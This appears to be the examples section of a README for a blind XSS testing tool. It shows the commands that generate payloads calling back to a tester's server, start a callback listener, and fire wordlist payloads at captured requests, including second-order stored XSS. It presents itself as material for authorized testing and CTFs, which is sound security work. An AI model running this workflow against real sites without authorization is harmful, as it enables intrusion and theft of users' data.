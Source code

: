 
## 🎓 Examples

### Example 1: Basic Blind XSS Test

```bash
# 1. Generate
python3 blind_xss_generate.py --server https://your-server.com

# 2. Listen
sudo python3 callback_server.py \
  --domain your-server.com \
  --cert-dir ./ssl-certs \
  --result result/working.txt

# 3. Test (default: 1 thread, output to result/findings.txt)
python3 auto_xss_test.py --request burp.txt --wordlist wordlists/www_input_payloads.txt

# 4. Check results (all sorted by ID)
cat result/working.txt    # Confirmed working payloads
cat result/xss_hits.log   # All hits log
cat result/findings.txt   # Browser-detected XSS
```

### Example 2: CTF Challenge (Fast Mode)

```bash
# Generate with ngrok
python3 blind_xss_generate.py --server https://abc123.ngrok.io

# Listen with CTF mode
python3 callback_server.py --http-only --ctf-mode --max-hits 3

# Test with high threads
python3 auto_xss_test.py --request burp.txt --threads 10 --delay 1
```

### Example 3: Second-Order Stored XSS

```bash
# Generate
python3 blind_xss_generate.py --server https://your-server.com

# Listen
sudo python3 callback_server.py --domain your-server.com --cert-dir ./ssl-certs

# Test with second-order
python3 auto_xss_test.py \
  --request burp_post_comment.txt \
  --second-order burp_view_comments.txt \
  --wordlist wordlists/www_input_payloads.txt
```

---

## 📄 License

This tool is for **educational and authorized security testing only**.

**Use responsibly. Happy hunting! 🎯**
